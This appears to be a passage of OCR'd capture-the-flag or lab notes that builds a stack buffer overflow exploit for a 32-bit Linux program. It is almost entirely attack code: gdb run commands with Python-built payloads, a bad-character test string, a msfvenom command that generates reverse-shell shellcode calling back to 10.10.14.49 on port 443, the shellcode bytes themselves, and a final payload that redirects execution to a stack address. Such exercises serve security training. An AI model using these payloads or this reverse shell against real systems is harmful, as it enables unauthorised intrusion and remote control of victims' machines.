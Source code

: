 offset = 2060
eip = "\x66"*4

# with bad characters
run $(python -c 'print "\x55"*(2064 - 100 - 256 - 4) + "\x90"*100 + "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"+"\x66"*4')


# with bad characters except for \x00\x09\x0a\x20
run $(python -c 'print "\x55"*(2064 - 100 - 252 - 4) + "\x90"*100 + "\x01\x02\x03\x04\x05\x06\x07\x08\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"+"\x66"*4')


### msfvenom -p linux/x86/shell_reverse_tcp LHOST="10.10.14.49" LPORT=443 --platform linux --arch x86 --format c -b "\x00\x09\x0a\x20" -o exploit.c

```c
unsigned char buf[] = 
"\xd9\xc1\xd9\x74\x24\xf4\xba\x38\x72\xe3\x45\x5e\x29\xc9"
"\xb1\x12\x31\x56\x17\x83\xee\xfc\x03\x6e\x61\x01\xb0\xbf"
"\x5e\x32\xd8\xec\x23\xee\x75\x10\x2d\xf1\x3a\x72\xe0\x72"
"\xa9\x23\x4a\x4d\x03\x53\xe3\xcb\x62\x3b\xfe\x21\x9b\x8a"
"\x96\x37\xa3\xed\xdd\xb1\x42\x5d\x47\x92\xd5\xce\x3b\x11"
"\x5f\x11\xf6\x96\x0d\xb9\x67\xb8\xc2\x51\x10\xe9\x0b\xc3"
"\x89\x7c\xb0\x51\x19\xf6\xd6\xe5\x96\xc5\x99";


"\xd9\xc1\xd9\x74\x24\xf4\xba\x38\x72\xe3\x45\x5e\x29\xc9\xb1\x12\x31\x56\x17\x83\xee\xfc\x03\x6e\x61\x01\xb0\xbf\x5e\x32\xd8\xec\x23\xee\x75\x10\x2d\xf1\x3a\x72\xe0\x72\xa9\x23\x4a\x4d\x03\x53\xe3\xcb\x62\x3b\xfe\x21\x9b\x8a\x96\x37\xa3\xed\xdd\xb1\x42\x5d\x47\x92\xd5\xce\x3b\x11\x5f\x11\xf6\x96\x0d\xb9\x67\xb8\xc2\x51\x10\xe9\x0b\xc3\x89\x7c\xb0\x51\x19\xf6\xd6\xe5\x96\xc5\x99"
```

run $(python -c 'print "\x55"*(2064 - 100 - 95 - 4) + "\x90"*100 + "\xd9\xc1\xd9\x74\x24\xf4\xba\x38\x72\xe3\x45\x5e\x29\xc9\xb1\x12\x31\x56\x17\x83\xee\xfc\x03\x6e\x61\x01\xb0\xbf\x5e\x32\xd8\xec\x23\xee\x75\x10\x2d\xf1\x3a\x72\xe0\x72\xa9\x23\x4a\x4d\x03\x53\xe3\xcb\x62\x3b\xfe\x21\x9b\x8a\x96\x37\xa3\xed\xdd\xb1\x42\x5d\x47\x92\xd5\xce\x3b\x11\x5f\x11\xf6\x96\x0d\xb9\x67\xb8\xc2\x51\x10\xe9\x0b\xc3\x89\x7c\xb0\x51\x19\xf6\xd6\xe5\x96\xc5\x99"+"\x84\xd6\xff\xff"')


the end of "\x90" => 0xffffd684  \x84\xd6\xff\xff